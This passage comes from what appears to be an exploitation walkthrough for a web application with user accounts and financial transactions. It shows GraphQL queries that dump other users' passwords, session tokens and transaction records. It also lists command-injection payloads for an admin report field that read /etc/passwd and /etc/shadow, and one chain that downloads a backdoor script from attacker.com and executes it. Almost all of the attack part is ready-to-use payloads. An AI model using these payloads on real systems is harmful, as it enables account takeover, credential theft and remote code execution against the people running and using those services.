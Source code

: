    ```graphql
     { "query": "{ user(id: 1) { username password } }" },
     { "query": "{ user(id: 2) { username password } }" },
     { "query": "{ user(id: 3) { username password } }" }
   ]
   ```

### Token Extraction and Account Compromise
1. Extract authentication tokens from other users via GraphQL:
   ```graphql
   {
     users {
       id
       username
       sessionData
     }
   }
   ```
2. These tokens can be used to impersonate users
3. Perform horizontal privilege escalation by accessing multiple accounts
4. Exfiltrate sensitive financial data from all accounts:
   ```graphql
   {
     transactions(limit: 1000) {
       id
       from { username }
       to { username }
       amount
       note
     }
   }
   ```

## 10. Command Injection Vulnerability

**Objective**: Execute arbitrary system commands on the server

### Discovery
1. Identify the admin report endpoint that uses server-side command execution:
   ```
   POST /api/admin/report
   ```
2. This endpoint passes unsanitized user input directly to a system command
3. The endpoint requires admin privileges

### Exploitation
1. Gain admin access through other vulnerabilities like JWT manipulation or SQL injection
2. Create a malicious report name with command injection:
   ```json
   {
     "report_name": "sales_report; cat /etc/passwd"
   }
   ```
3. Advanced command injection with output redirection:
   ```json
   {
     "report_name": "quarterly_stats && wget -O /tmp/backdoor.sh http://attacker.com/backdoor.sh && bash /tmp/backdoor.sh"
   }
   ```
4. Chain multiple commands using semicolons, double ampersands, or pipes:
   ```
   legitimate_name; whoami
   legitimate_name && cat /etc/shadow
   legitimate_name | grep password
   ```